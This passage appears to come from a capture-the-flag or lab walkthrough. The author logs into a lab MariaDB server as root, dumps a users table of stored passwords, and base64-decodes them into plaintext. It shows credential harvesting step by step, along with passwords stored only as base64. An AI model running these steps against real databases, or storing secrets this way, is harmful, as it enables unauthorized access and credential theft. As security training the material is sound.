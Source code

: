 Looked like I had working MySQL credentials for the `root` user, from where I was able to find additional credentials:

```bash
kali@kali:~$ mysql -u root -p -h 192.168.56.115
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 147
Server version: 5.5.47-0+deb8u1 (Debian)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Users              |
+--------------------+
2 rows in set (0.001 sec)

MySQL [(none)]> use Users;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [Users]> show tables;
+-----------------+
| Tables_in_Users |
+-----------------+
| users           |
+-----------------+
1 row in set (0.001 sec)

MySQL [Users]> select * from users;
+------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== |
| kane | aVN2NVltMkdSbw== |
+------+------------------+
3 rows in set (0.001 sec)
```

These new passwords seemed base64 encoded, so I decoded them:

```bash
kali@kali:~$ echo "Sld6WHVCSkpOeQ==" | base64 -d
JWzXuBJJNy
kali@kali:~$ echo "U0lmZHNURW42SQ==" | base64 -d
SIfdsTEn6I
kali@kali:~$ echo "aVN2NVltMkdSbw==" | base64 -d
iSv5Ym2GRo
```
